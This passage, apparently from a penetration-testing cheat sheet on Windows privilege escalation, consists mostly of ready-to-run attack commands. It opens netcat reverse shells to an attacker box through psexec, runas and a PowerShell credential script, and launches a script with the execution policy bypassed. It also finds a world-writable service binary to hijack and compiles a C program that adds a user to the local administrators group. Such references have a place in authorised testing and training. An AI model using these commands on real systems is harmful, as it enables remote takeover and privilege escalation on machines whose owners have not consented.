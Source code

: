       -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`


-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

-   Compile a custom add user command in windows using C  

      ```
      root@kali:~# cat useradd.c  
      #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
      int main ()  
      {  
      int i;  
      i=system ("net localgroup administrators low /add");  
      return 0;  
      }
      ```  
